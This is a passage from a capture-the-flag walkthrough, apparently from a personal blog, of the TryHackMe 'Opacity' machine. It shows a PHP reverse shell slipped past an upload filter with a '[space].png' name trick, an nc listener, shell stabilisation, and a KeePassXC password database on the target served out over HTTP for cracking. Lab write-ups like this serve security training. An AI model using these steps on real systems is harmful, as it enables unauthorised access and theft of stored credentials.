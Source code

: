 Hosting our reverse shell:
[pentestmonkey reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
```shell
┌──(kali㉿rar)-[~/THM/Opacity]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Listening for connections:
```shell
┌──(kali㉿rar)-[~/THM/Opacity]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

after trying to upload my shell as `[shell.php.png, shell.php]` <br>
adding a ``[space] .png`` after the php file extention seems to work ! <br> 

![cloud-fileupload](https://github.com/0xRar/0xrar.github.io/assets/33517160/58c3a6a7-577e-4d2d-be28-e96b63f14a02)

now that we were able to upload our reverse shell, we get redirected to `/cloud/storage.php`, <br>
and our shell script is stored at `http://opacity.thm/cloud/images/shell.php .png` removing the .png <br>
will trigger our shell script and give us shell access to the machine!

![image-link](https://github.com/0xRar/0xrar.github.io/assets/33517160/c85c646d-21df-4d0b-8a52-9749ba16b4a9)

Getting Stable Shell:
```shell
www-data@opacity:/$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@opacity:/$ export TERM=xterm
```

but we are still `www-data` we don't even have a user. 

---

## Privilege Escalation
before uploading any script that help with priv esc like linPEAS i usually check for interesting script & files <br>
in directories like `/tmp`, `/opt` and ofcourse the local user's directory: `/home/sysadmin` <br>

in the /opt directory there is a `KeePassXC` Database, KeePassXC is an offline open-source password manager, <br> 
nice find because we can try and crack the master password!

```shell
www-data@opacity:/$ ls /opt
dataset.kdbx
```

### www-data to sysadmin
Hosting an http server in our target's machine:
```shell
www-data@opacity:/opt$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
